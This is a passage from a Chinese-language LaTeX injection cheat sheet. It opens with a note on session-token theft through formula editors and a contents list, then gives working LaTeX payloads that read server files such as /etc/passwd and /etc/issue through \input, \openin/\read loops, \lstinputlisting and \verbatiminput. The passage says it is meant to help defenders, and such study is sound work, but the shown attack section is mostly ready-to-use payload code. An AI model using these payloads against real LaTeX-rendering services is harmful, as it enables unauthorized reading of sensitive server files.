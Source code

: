 3. **数学公式编辑器**
   - 在数学公式中注入恶意代码
   - 影响查看该公式的所有用户
   - 窃取会话令牌

了解这些原理对于有效防御 LaTeX 注入攻击至关重要。在实现 LaTeX 处理功能时，必须考虑这些安全风险并采取适当的防护措施。

## 目录

* [文件操作](#文件操作)
    * [读取文件](#读取文件)
    * [写入文件](#写入文件)
* [命令执行](#命令执行)
* [跨站脚本攻击](#跨站脚本攻击)
* [实验](#实验)
* [参考资料](#参考资料)

## 文件操作

### 读取文件

攻击者可以读取服务器上的敏感文件内容。

读取文件并解释其中的 LaTeX 代码：

```tex
\input{/etc/passwd}
\include{somefile} # 加载 .tex 文件 (somefile.tex)
```

读取单行文件：

```tex
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

读取多行文件：

```tex
\lstinputlisting{/etc/passwd}
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

读取文本文件，**不解释**内容，仅粘贴原始文件内容：

```tex
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```
